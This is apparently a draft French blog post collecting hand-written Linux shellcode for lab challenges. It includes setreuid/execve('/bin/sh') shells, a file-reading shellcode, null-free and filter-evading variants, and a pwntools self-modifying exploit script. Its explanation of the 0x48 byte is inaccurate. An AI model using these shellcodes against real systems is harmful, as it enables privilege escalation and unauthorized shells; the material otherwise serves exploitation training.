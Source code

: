 ```yaml
---
title: 'Examples'
date: 2023-02-20
draft: true
categories:
  - shellcoding
tags:
  - pwn
  - shellcoding
---
```


Quelques exemples de shellcodes fais à la main en _amd64_ pour différents contextes.
## X86 Shellcode
```nasm title:x86.s
_start:
	push   0x46
	pop    eax
	mov    bx, 0x4b7
	mov    cx, 0x453
	int    0x80

	xor    edx, edx
	push   0xb
	pop    eax
	push   edx
	push   0x68732f2f
	push   0x6e69622f
	mov    ebx, esp
	push   edx
	push   ebx
	mov    ecx, esp
	int    0x80
```
## Lire un Fichier

```nasm
.global _start
_start:
.intel_syntax noprefix
shellcode:
    mov rax, 0x6b
    syscall

	mov rax, 0x02
    xor rsi, rsi
    xor rdx, rdx
    lea rdi, [rip+passwd]
    syscall

	push rax
    mov rax, 0x28
    pop rsi
	mov rdi, 1
    xor rdx, rdx
    mov r10, 1000
    syscall

passwd:
    .string ".passwd"
```

## Pas de Null Bytes

```nasm
.global _start
_start:
.intel_syntax noprefix
	
# Set Real UID to root(0)
	xor rax, rax
	mov al, 0x71
	xor rdi, rdi
	xor rsi, rsi
	syscall
	
# Call /bin/sh
	xor rbx, rbx
	push rbx                          # on push un null byte sur la stack pour la fin de la string du path de /bin/sh
	mov rbx, 0x68732f6e69622f2f       # on push /bin/sh sur la stack
	push rbx
	xor rax, rax
	mov al, 59
	xor rdi, rdi
	mov rdi, rsp                      # on récupère "/bin/sh\\0" depuis la stack
	xor rsi, rsi
	xor rdx, rdx
	syscall
```

## Pas de ‘H’ byte

Le byte ‘H’ (0x48) est un byte qui précède chaque instruction effectuée en 64 bits. C’est une fonctionnalité qui permet la rétro-compatibilité entre le x86 et x64. Ainsi on peut executer du 32 bits sur une architecture en 64 bits.

```nasm
.global _start
_start:
.intel_syntax noprefix
	# Set Real UID to root(0)
	xor eax, eax
	mov al, 0x71
	xor edi, edi
	xor esi, esi
	syscall
	
	# Call /bin/sh
	lea ebx, [eip+binsh]
	xor eax, eax
	mov al, 59
	xor edi, edi
	mov edi, ebx
	xor esi, esi
	xor edx, edx
	syscall
binsh:
    .string "/bin/sh"
```

## Self-Modifying Shellcode

Ici on a besoin de bypass un check sur les bytes contenu dans notre shellcode. Si le programme repère un appel à un syscall(bytes: `0f05`) dans notre shellcode, alors il crash.

La solution est de simplement créer un shellcode qui va s’auto-modifier au moment de l’execution. Pour cela, on va envoyer notre payload classique en remplaçant les bytes `0f05` par `0f04` et on va faire en sorte que notre shellcode aye les modifier en mémoire lorsqu’il sera exécuté.

```nasm
import pwn

p = pwn.process(['/challenge/babyshell_level5'])

head = p.readuntil(b"Reading 0x1000 bytes").decode("utf-8")
address = head.split(" ")[73].split("!")[0]

pwn.context.update(arch='amd64', os='linux')
payload = pwn.asm(f"""
.global _start
_start:
.intel_syntax noprefix
	mov bl, 0x05
	mov [{address}+28], bl
	mov [{address}+62], bl
	xor rax, rax
	mov al, 0x71
	xor rdi, rdi
	xor rsi, rsi
	syscall
	xor rbx, rbx
	push rbx
	mov rbx, 0x68732f6e69622f2f
	push rbx
	xor rax, rax
	mov al, 59
	xor rdi, rdi
	mov rdi, rsp
	xor rsi, rsi
	xor rdx, rdx
	syscall
""")

raw_payload = 'b305881c251c10121c881c253e10121c4831c0b0714831ff4831f60f044831db5348bb2f2f62696e2f7368534831c0b03b4831ff4889e74831f64831d20f04'

p.write(bytes.fromhex(raw_payload))

p.interactive()

p.wait()
```
